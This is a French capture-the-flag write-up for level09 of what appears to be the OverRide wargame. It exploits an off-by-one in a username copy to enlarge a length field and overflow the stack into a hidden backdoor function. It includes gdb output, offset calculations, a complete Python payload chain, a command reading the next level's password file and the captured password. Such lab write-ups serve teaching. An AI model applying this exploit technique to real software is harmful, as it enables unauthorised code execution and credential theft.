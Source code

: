 ### level09

Arrivés à cet exercice, nous remarquons très vite la fonction ``secret_backdoor`` présente dans le code.
Dedans, nous retrouvons une fonction system, qui va nous permettre d'exécuter une commande bash.
Si nous recherchons l'adresse de cette secret_backdoor avec gdb en runtime, nous retrouvons ceci :

```bash
level09@OverRide:~$ gdb -q level09 
Reading symbols from /home/users/level09/level09...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0xaac
(gdb) run
Starting program: /home/users/level09/level09 
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000

Breakpoint 1, 0x0000555555554aac in main ()
(gdb) info address secret_backdoor 
Symbol "secret_backdoor" is at 0x55555555488c in a file compiled without debugging.
```

L'adresse est donc 0x55555555488c. C'est l'addresse absolue de la fonction, obtenue durant le runtime.

Nous avons aussi une structure présente dans le code :

```c
typedef struct  s_msg {
    char        message[140];
    char        username[40];
    int         size;
}               t_msg;
```

L'inconvénient des structures est que toutes les valeurs sont les unes derrière les autres dans la mémoire.
Cela signifie qu'en cas de dépassement de capacité (overflow), nous pourrons écrire dans les données qui suivent.
Dans le programme, lors du remplissage du username, nous pouvons voir cette boucle for :

```c
for (int i = 0; i <= 40 && s[i]; i++)
    msg->username[i] = s[i];
```

Le problème étant que le username ne possède que 40 emplacements mémoire (0 à 39), or ici nous remplissons jusqu'au 41ème emplacement (0 à 40).
Si nous écrivons quelque chose dans le 40ème emplacement, nous allons donc écrire dans le size de la structure.

La fonction strncpy va écrire le nombre de caractères qui sera saisi dans cet overflow :

```c
strncpy(msg->message, s, msg->size);
```

On doit calculer l'offset pour écraser l'EIP avec l'adresse de secret_backdoor.

Dans handle_msg, au moment de récupérer la structure, on voit :

```assembly
 8cb:	48 8d 85 40 ff ff ff 	lea    rax,[rbp-0xc0]
```

De plus, il y a un unique push de rbp :

```assembly
 8c0:	55                   	push   rbp
```

On a donc un offset de 200, on écrira ensuite 8 octets pour l'adresse de secret_backdoor.
Cela nous donne 208, soit d0 en hexadécimal.

Il ne reste plus qu'à écrire notre commande :

En premier, la partie qui va remplir le username et écraser la valeur de size avec d0 :

```bash
python -c "print('A' * 40 + '\xd0')"
```

Ensuite, on écrit 200 caractères de remplissage puis l'adresse de secret_backdoor en little endian :

```bash
python -c "print('B' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00')"
```

Et enfin, la commande que l'on souhaite exécuter :

```bash
python -c "print('cat /home/users/end/.pass')"
```

En une commande, cela nous donne :

```bash
(python -c "print('A' * 40 + '\xd0')"; python -c "print('B' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00')"; python -c "print('cat /home/users/end/.pass')") | ./level09
```

Nous retrouvons ce résultat final :

```bash
level09@OverRide:~$ (python -c "print('A' * 40 + '\xd0')"; python -c "print('B' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00')"; python -c "print('cat /home/users/end/.pass')") | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)
```